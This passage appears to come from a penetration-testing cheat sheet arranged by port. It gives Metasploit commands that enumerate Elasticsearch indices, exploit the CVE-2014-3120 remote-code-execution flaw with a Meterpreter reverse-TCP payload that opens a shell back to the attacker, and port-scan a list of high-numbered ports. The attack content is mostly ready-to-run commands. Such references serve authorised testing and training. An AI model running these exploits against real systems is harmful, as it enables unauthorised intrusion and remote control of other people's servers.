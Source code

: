 
## Port 9200, 9300 - Elasticsearch
**Service**: Elasticsearch  
**Common services**: Elasticsearch, ELK Stack

### Auxiliary: Elasticsearch Information
```bash
use auxiliary/scanner/elasticsearch/indices_enum
set RHOSTS [IP]
set RPORT 9200
```
**Purpose**: Enumerates all database indices if authentication is disabled.

### Exploit: Elasticsearch RCE (CVE-2014-3120)
```bash
use exploit/multi/elasticsearch/script_mvel_rce
set RHOST [IP]
set RPORT 9200
set PAYLOAD java/meterpreter/reverse_tcp
```
**Purpose**: Executes arbitrary Java code on older Elasticsearch versions.

---

## High Number Ports
**Ports**: 47001, 49512, 49153, 49154, 49155, 49176, 49249, 40250, 40252, 49260, 49261

These high-numbered ports are typically:
- Dynamic/private ports used by various applications
- Peer-to-peer applications
- Game servers
- Custom applications
- UPnP services

### General Approach:
```bash
# First, identify what's running
use auxiliary/scanner/portscan/tcp
set RHOSTS [IP]
set PORTS 47001,49512,49153,49154,49155,49176,49249,40250,40252,49260,49261

# Then use service-specific modules based on identification
use auxiliary/scanner/http/http_version
set RHOSTS [IP]
set PORTS 47001,49512,49153,49154,49155,49176,49249,40250,40252,49260,49261
```

### Common Services on High Ports:
- **49153-49155**: Often used by Windows UPnP services
- **49200+**: Often used by various applications and games
- **47001**: Sometimes used by Microsoft services or games
